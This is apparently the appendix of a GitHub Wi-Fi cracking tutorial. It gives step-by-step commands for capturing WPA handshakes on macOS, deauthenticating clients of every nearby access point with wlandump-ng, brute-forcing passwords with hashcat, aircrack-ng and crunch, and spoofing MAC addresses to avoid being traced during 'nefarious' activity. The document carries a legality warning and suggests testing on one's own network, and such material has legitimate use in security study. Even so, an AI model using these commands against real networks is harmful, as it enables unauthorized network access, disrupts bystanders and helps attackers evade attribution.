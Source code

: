 # Appendix

After the initial release of this tutorial, several people from various corners of the internet reached out with comments and suggestions. In an effort to keep the original tutorial short and sweet, I've included information about their wonderful suggestions here, and added some of my own. Here you will find info on:

- Wi-Fi cracking on MacOS/OSX
- Capturing handshakes with `wlandump-ng`
- Generating wordlists with `crunch`
- Protecting your identity with `macchanger`

## Wi-Fi cracking on MacOS/OSX

Huge thanks to [@harshpatel991](https://github.com/harshpatel991) for contributing this guide. The following explains how to use built-in MacOS/OSX tools to capture a 4-way handshake and naive-hashcat to determine the password of a WPA/WPA2 wireless network. This method has been tested on OSX versions 10.10 and 10.12 but will likely work with other versions as well. Like the main tutorial, it assumes you have a [wireless card](http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html) that supports [monitor mode](https://en.wikipedia.org/wiki/Monitor_mode). We've tested this on both Early-2012 and Mid-2015 Macbook Pros with great success.

### Wireless Diagnostics tools

Luckily, OSX comes with a suite of wireless diagnostic tools. To open them, hold down the option key on your keyboard and click on the Wi-Fi icon in the menu bar. Then click "Open Wireless Diagnostics..."

### Determine the channel of your target network

With Wireless Diagnostics open, click on Window > Scan. Find the target network, note its channel and width.

### Capture a 4-way Handshake

1. With Wireless Diagnostics open, click on Window > Sniffer. Select the channel and width that you found in the previous step.
2. Now you'll need to wait for a device to connect to the target network. If you are testing this on your network (which you should be), reconnect a wireless device to capture a handshake.
3. Once you think you've got a handshake, click Stop.
4. The `.wcap` capture file will either be saved to your Desktop or `/var/tmp/` depending on your operating system version.
5. Convert the capture file to `.hccapx` by uploading it to https://hashcat.net/cap2hccapx/. If you captured any handshakes, the site will start downloading a `.hccapx` file. No download will be prompted if you did not.

### Crack the password with `naive-hashcat`

```bash
# clone naive-hashcat
git clone https://github.com/brannondorsey/naive-hashcat
cd naive-hashcat

# build from source on MacOS/OSX
./build-hashcat-osx.sh

# download the 134MB rockyou dictionary file
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

Finally, run `naive-hashcat.sh`. Change `handshake.hccapx` to the name of the file you downloaded from [hashcat.net](https://hashcat.net/cap2hccapx/). `cracked.pot` is the name of the output file. 

```
HASH_FILE=handshake.hccapx POT_FILE=cracked.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

Thanks again to [@harshpatel991](https://github.com/harshpatel991), as well as [phillips321](http://www.phillips321.co.uk/) for his [post](https://www.phillips321.co.uk/2016/07/09/hashcat-on-os-x-getting-it-going/) about building hashcat for OSX.

## Capturing handshakes with `wlandump-ng`

[@enilfodne](https://github.com/enilfodne) has [informed me](https://github.com/brannondorsey/wifi-cracking/issues/15) that the hashcat community has a prefered tool for capturing WPA 4-way handshakes, called `wlandump-ng`. This tool belongs to a suite of hashcat related utilities called [hcxtools](https://github.com/ZerBea/hcxtools) developed by [ZerBea](https://github.com/ZerBea), and has notable perks over `airdump-ng`. `wlandump-ng` allows you to blanket capture handshakes from every nearby network at once, hopping Wi-Fi channels in order to increase collection.


```bash
# clone hcxtools
git clone https://github.com/ZerBea/hcxtools
cd hcxtools

# build and install
# you will likely need to apt install the required dependencies:
# https://github.com/ZerBea/hcxtools#requirements
make
sudo make install

# you must identify all services that takes access to your capture device and stop them (at least this 2):
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service

# you must put the interface into monitor mode (where $WLANDEV is your device name)
# do not use wlandump-ng/wlanresponse on virtual devices like monx, or use airmon-ng to put the device into monitor mode
sudo ip link set $WLANDEV down
sudo iw dev $WLANDEV set type monitor
sudo ip link set $WLANDEV up
sudo iw dev $WLANDEV info

# blanket death connected clients from all nearby access points and listen for re-connections
# replace wlan0 with your wireless device name
wlandump-ng -i wlan0 -o capture.cap -c 1 -t 60 -d 100 -D 10 -m 512 -b -r -s 20 

# if you got pcap read errors like this:
# internal pcap errors.....................................: 12
# there are more services that prevent wlandump-ng/wlanresponse to access the device - you must identify and stop them


# once you've got a capture file, you can convert it to the hashcat capture format with
cap2hccapx.bin capture.cap capture.hccapx

# if you finished capturing do not forget to put the device back into managed mode
sudo ip link set $WLANDEV down
sudo iw dev $WLANDEV set type managed
sudo ip link set $WLANDEV up
sudo iw dev $WLANDEV info

# and start the services again - otherwise you will have no connectivity!
sudo systemctl start NetworkManager.service
sudo systemctl start wpa_supplicant.service
```

`wlandump-ng` command-line args (use `-h` flag for full list):

- `-c 1`: start in the 2.4Ghz range from channel 1 (will go to 13)
- `-t 60`: stay on each channel for 60s (experiment with lower values, default is `5`)
- `-d 100`: send deauth every 100 beacon frames
- `-D 10`: send disassosciation packets every 10 beacons frames
- `-m 512`: internal ringbuffer size, use 512 for low resource machines
- `-b`: activate beaconing to last 10 probe requests
- `-r`: reset deauthentication/disassosciation counter if hop loop is on channel 1
- `-s 20`: display 20 status lines

**WARNING:** Using this is likely illegal in most places. See [here](https://github.com/ZerBea/hcxtools#warning) for more info.

`wlandump-ng` also offers the option to run in passive mode without transmitting any deauth/disassociation frames. This is recommended if you are are sensitive to disrupting the network activity of those around you (which you should be). The trade-off is that you will capture far fewer handshakes, but this method makes the capture undetectable.

```bash
# run with default settings in passive mode
wlandump-ng -i wlan0 -o capture.cap -p -s 20 
```

## Generating wordlists with `crunch`

`crunch`is a tool to generate wordlists using combinations of a given string or pattern. We can use crunch to generate a password list on-the-fly and pipe it to `aircrack-ng` without having the wordlist saved to disk.

```bash
# install crunch
sudo apt-get install crunch
```

To get an idea of how crunch works, run it from the command-line (be ready to press `ctrl-c` once it starts spewing passwords):

```bash
# syntax 8 8 are min-length and max-length of password to generate
# 01234567890 is the set of characters to combine/permute to construct the passwords
crunch 8 8 0123456789
```

```
Crunch will now generate the following amount of data: 900000000 bytes
858 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 100000000 
00000000
00000001
00000002
00000003
00000004
00000005
00000006
00000007
00000008
00000009
...
99999999
```

We can pipe the output of `crunch` as the input to `aircrack-ng`, using the passwords that it generates as our wordlist. Here we use the `crunch` special rule character `%` to denote a digit. This command attempts to crack WPA passwords that are 10-digit phone numbers (using 102GB of numbers generated by crunch on-the-fly): 

```bash
# we can also use -t "@^%," to use pattern '@' - replaced with lowercase ',' - replaced with uppercase
# '%' - replaced with numbers and '^' - is replaced with special chars
# *************** don't forget '-' at the end
crunch 10 10 -t "%%%%%%%%%%" | aircrack-ng -a2 capture.cap -b 58:98:35:CB:A2:77 -w -
```

Thanks to [@hiteshnayak305](https://github.com/hiteshnayak305) for the introduction to `crunch` and including this update as a [PR](https://github.com/brannondorsey/wifi-cracking/pull/17).

## Protecting your identify with `macchanger`

Whenever you are doing anything remotely nefarious with Wi-Fi, it is a good idea to spoof your MAC address of your Wi-Fi device so that any network traffic that gets recorded can't be tied to serial assigned by your device manufacturer.

This is trivial with `macchanger`:

```bash
# download MAC changer
sudo apt-get install macchanger

# bring the device down
sudo ifconfig wlan0 down

# change the mac
# -A pics a random MAC w/ a valid vendor
# -r makes it truly random
# -p restores it to the original hardware MAC
sudo macchanger -A wlan0

# bring the device back up
sudo ifconfig wlan0 up
```

If you've got multiple cards, it might also be a good idea to do this to all of them. Or better yet, bring unused wireless interfaces down whenever you are attempting to capture handshakes, to leave as little trace as possible. Note that spoofing changes do not persist across reboots.

